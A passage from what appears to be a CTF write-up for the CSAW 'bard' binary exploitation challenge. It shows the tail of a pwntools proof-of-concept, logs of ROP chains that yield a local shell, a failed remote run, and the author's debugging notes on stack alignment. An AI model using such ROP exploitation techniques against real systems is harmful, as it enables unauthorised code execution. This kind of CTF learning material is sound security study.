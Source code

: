 ```python

for i in range(10): r.combat('r')
r.interactive()
```
Strangely, this payload, while working perfectly on local:
```python
$ python3.8 poc.py 1
[*] '/path/to/bard'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bard'
[+] Starting local process './bard': pid 19069
[*] First ROP chain sent.
[*] base: 0x7fdfe5260000
[*] Second ROP chain sent.
[*] Switching to interactive mode
$ echo hi
hi
$
```
...was completely broken on remote:
```python
$ python3.8 poc.py
[*] '/path/to/bard'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bard'
[+] Opening connection to pwn.chal.csaw.io on port 5019: Done
[*] First ROP chain sent.
[*] base: 0x7f308d575000
[*] Second ROP chain sent.
Traceback (most recent call last):
  File "poc.py", line 54, in <module>
    for i in range(10): r.combat('r')
  File "poc.py", line 28, in combat
    if choice == 'r': return r.recvline()
  ...
  File "/usr/local/lib/python3.8/site-packages/pwnlib/tubes/sock.py", line 56, in recv_raw
    raise EOFError
EOFError
```
After a long period of debugging, I realised that this was due to two separate issues:
1. `system()` on remote requires a valid `rbp`<sup>2</sup>. The `rbp` applied by the final `Bad` bard is filled with garbage values.
2. The remote simply fails to send the final line of output for the last instance of `combat()`. Not entirely sure why.
